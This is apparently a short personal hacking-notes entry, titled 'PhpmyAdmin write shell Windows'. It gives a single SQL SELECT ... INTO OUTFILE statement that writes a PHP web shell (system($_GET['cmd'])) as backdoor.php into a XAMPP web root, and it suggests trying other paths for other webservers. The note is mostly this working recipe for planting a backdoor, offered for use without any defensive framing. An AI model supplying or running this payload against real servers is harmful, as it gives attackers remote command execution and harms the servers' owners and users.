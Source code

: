 # PhpmyAdmin write shell Windows
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

# Related
- [20221003150553](/zet/20221003150553/README.md) PhpmyAdmin write shell
- ~/kb/hacking/common-commands.md

Tags:
    #assorted #command #hacking #common
